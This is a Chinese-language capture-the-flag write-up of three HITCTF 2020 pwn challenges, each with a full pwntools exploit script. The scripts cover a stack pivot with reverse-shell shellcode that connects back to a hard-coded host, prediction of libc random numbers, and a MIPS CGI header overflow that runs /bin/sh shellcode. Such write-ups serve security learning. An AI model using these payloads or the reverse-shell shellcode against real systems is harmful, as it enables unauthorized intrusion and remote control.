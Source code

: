 ```yaml
---
title: HITCTF 2020 三道 Pwn
date: 2020-12-09 00:00:02
categories:
- CTF/Pwn
tags: HITCTF mips
---
```


> 更新中...比较简单的Pwn，其中的MIPS Pwn是人生中拿到的第一个Pwn的一血，全是4哥的功劳。

总共五道题，做出来三道，题目全在这了：[pwn.zip](https://xuanxuanblingbling.github.io/assets/attachment/hitctf/pwn.zip)

## dagongren1

媳妇博客：[hitctf2020之dagognren1](https://blingblingxuanxuan.github.io/hitctf2020-dagongren1.html)

- 漏洞：main函数scanf栈溢出
- 利用：栈迁移+反弹shell

```python
from pwn import *
context(arch="amd64",os='linux')
#myelf = ELF("./dagongren1")
#io = process(myelf.path)
io = remote("81.70.209.171",51601)

shellcode = "\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0\x48\x31\xf6\x4d\x31\xd2\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24\x02\x7a\x69\xc7\x44\x24\x04\x95\x81\x23\x3d\x48\x89\xe6\x6a\x10\x5a\x41\x50\x5f\x6a\x2a\x58\x0f\x05\x48\x31\xf6\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54\x5f\x6a\x3b\x58\x0f\x05"

io.recv()
#gdb.attach(io,"b * 0x400736")
io.sendline('a'*32+p64(0x600E40)+p64(0x4006FC))
sleep(1)
io.sendline('a'*32+p64(0x0)+p64(0x600e50)+shellcode)
io.interactive()
```

## lucky

- 漏洞：可预测的随机数
- 利用：本地预测随机数

```python
from pwn import *
from ctypes import *
context.log_level = "debug"
 
libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')
libc.srand(libc.time(0)/0xA+1)
myelf = ELF("./lucky")
#io = process(myelf.path)
io = remote("81.70.209.171",51700)
io.recv()
io.sendline("xuan")
for i in range(100):
    io.recv()
    io.sendline(str(libc.rand()))
io.interactive()
```

## supercgi

- 漏洞：多个`User-Agent`字段可以触发栈溢出（瞎发包测出来的，溢出点估计个大概，但原因比赛时没看明白）
- 利用：return 2 shellcode

> 开始用的ROP直接用程序函数打印flag，本地成功，远程失败，本地挂socat失败，原因不详，后来询问出题人，发现预期解是执行了`cat flag`，果断用shellcode

```python
from pwn import *
context(arch='mips',os='linux',endian='little')

buf =  b""
buf += b"\x66\x06\x06\x24\xff\xff\xd0\x04\xff\xff\x06\x28\xe0"
buf += b"\xff\xbd\x27\x01\x10\xe4\x27\x1f\xf0\x84\x24\xe8\xff"
buf += b"\xa4\xaf\xec\xff\xa0\xaf\xe8\xff\xa5\x27\xab\x0f\x02"
buf += b"\x24\x0c\x01\x01\x01\x2f\x62\x69\x6e\x2f\x73\x68\x00"

payload = '''GET /index.html HTTP/1.1
User-Agent: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa//flag\x00
User-Agent: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
User-Agent: %s
User-Agent: %s
User-Agent: %s

'''% (
    ('b'*187+p32(0x412f20)+'a'*5+buf),
    ('c'*78+p32(0x412f20)),
    ('d'*179+p32(0x412f20))
    ) 
#myelf = ELF("./SuperCgi")
#io = process(["qemu-mipsel","-g","1234",myelf.path])
#io = process(["qemu-mipsel",myelf.path])
#raw_input()
io = remote("81.70.209.171",50603)
#io = remote("127.0.0.1",1111)
#raw_input()
#sleep(1)
io.send(payload)
io.interactive()
```